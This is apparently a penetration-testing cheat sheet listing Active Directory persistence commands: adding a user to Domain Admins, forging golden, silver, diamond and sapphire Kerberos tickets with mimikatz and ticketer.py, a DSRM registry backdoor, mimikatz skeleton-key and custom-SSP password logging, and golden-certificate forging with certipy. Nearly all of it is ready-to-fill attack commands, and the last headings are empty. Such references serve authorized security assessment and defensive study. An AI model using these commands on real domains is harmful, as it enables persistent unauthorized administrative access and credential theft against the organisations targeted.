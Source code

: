 ```yaml
---
title: "Persistence"
description: "Persistence techniques and commands for Active Directory security assessment."
---
```

# Persistence
## ADD DA
- `net group "domain admins" myuser /add /domain`

## Golden ticket
- `ticketer.py -aesKey <aeskey> -domain-sid <domain_sid> -domain <domain> <anyuser>`
- `mimikatz "kerberos::golden /user:<admin_user> /domain:<domain> /sid:<domain-sid>/aes256:<krbtgt_aes256> /ptt"`

## Silver Ticket
- `mimikatz "kerberos::golden /sid:<current_user_sid> /domain:<domain-sid> /target:<target_server> /service:<target_service> /aes256:<computer_aes256_key> /user:<any_user> /ptt"`
- `ticketer.py -nthash <machine_nt_hash> -domain-sid <domain_sid> -domain <domain> <anyuser>`

## Directory Service Restore Mode (DSRM)
- `PowerShell New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`

## Skeleton Key
- `mimikatz "privilege::debug" "misc::skeleton" "exit" #password is mimikatz`

## Custom SSP
- `mimikatz "privilege::debug" "misc::memssp" "exit"`
  - C:\Windows\System32\kiwissp.log

## Golden certificate
- `certipy ca -backup -ca '<ca_name>' -username <user>@<domain> -hashes <hash>`
  - `certipy forge -ca-pfx <ca_private_key> -upn <user>@<domain> -subject 'CN=<user>,CN=Users,DC=<CORP>,DC=<LOCAL>`

## Diamond ticket
- `ticketer.py -request -domain <domain> -user <user> -password <password> -nthash <hash> -aesKey <aeskey> -domain-sid <domain_sid>  -user-id <user_id> -groups '512,513,518,519,520' <anyuser>`

## Saphire Ticket
- `ticketer.py -request -impersonate <anyuser> -domain <domain> -user <user> -password <password>  -nthash <hash> -aesKey <aeskey> -domain-sid <domain_sid>  'ignored'`
  
## DC shadow

## ACL manipulation

## ...
